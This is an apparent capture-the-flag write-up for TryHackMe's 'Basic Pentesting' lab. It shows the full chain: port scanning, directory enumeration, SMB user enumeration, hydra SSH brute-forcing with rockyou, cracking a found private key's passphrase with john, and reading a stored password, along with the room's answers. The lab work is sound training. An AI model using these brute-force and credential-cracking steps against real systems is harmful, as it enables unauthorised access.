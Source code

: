 ```yaml
---
render_with_liquid: false
title: Basic Pentesting
---
```


> https://tryhackme.com/room/basicpentestingjt

In these set of tasks you'll learn the following:

- brute forcing 
- hash cracking 
- service enumeration
- Linux Enumeration



Run autorecon first in background

```bash
┌──(kali㉿kali)-[~]
└─$ sudo $(which autorecon) 10.10.173.48
[*] Scanning target 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/80 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/139 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/445 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/22 on 10.10.173.48
[*] [10.10.173.48/all-tcp-ports] Discovered open port tcp/8080 on 10.10.173.48
...
```

Enumerate manually on port

```bash
nmap --script intrusive -p 22 -vv 10.10.173.48
```


## What is the name of the hidden directory on the web server(enter name without /)?

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.173.48 --burp
...
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       10l       24w      158c http://10.10.173.48/
301      GET        9l       28w      318c http://10.10.173.48/development => http://10.10.173.48/development/
200      GET        7l       42w      235c http://10.10.173.48/development/j.txt
200      GET        9l       89w      483c http://10.10.173.48/development/dev.txt
...
```

> development


## What is the username?

![](/assets/obsidian/295966d38a3eaf23e003277a6e58d8e9.png)

![](/assets/obsidian/fb0ceeb061f32a0348caff18cca3abc8.png)

According to the above info:
- SMB worth a try
- User with code `J` have weak password

```bash
┌──(kali㉿kali)-[~/thm]
└─$ enum4linux 10.10.173.48 -a | tee enum5linux.log
...
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
...
```

> jan


## What is the password?

After knowing the unix username, bruteforce `ssh` instead of `smb` because it's faster

```bash
┌──(kali㉿kali)-[~/thm]
└─$ hydra -l jan -P /opt/wordlists/rockyou.txt 10.10.173.48 ssh
...
[22][ssh] host: 10.10.173.48   login: jan   password: armando
...
```


## What service do you use to access the server(answer in abbreviation in all caps)?

> ssh


## What is the name of the other user you found(all lower case)?

> kay


## Enumerate the machine to find any vectors for privilege escalation

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sshpass -p armando ssh -o "StrictHostKeyChecking no" jan@10.10.31.182
...
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ vi private.key

┌──(kali㉿kali)-[~/thm]
└─$ chmod 600 private.key

┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
Enter passphrase for key 'private.key':
```

It's requesting for password

Crack it with john

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh2john private.key > private.key.hash

┌──(kali㉿kali)-[~/thm]
└─$ john private.key.hash --wordlist=/opt/wordlists/rockyou.txt
...
beeswax          (private.key)
...
```


## What is the final password you obtain?

Login

```bash
┌──(kali㉿kali)-[~/thm]
└─$ ssh kay@10.10.31.182 -i private.key
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$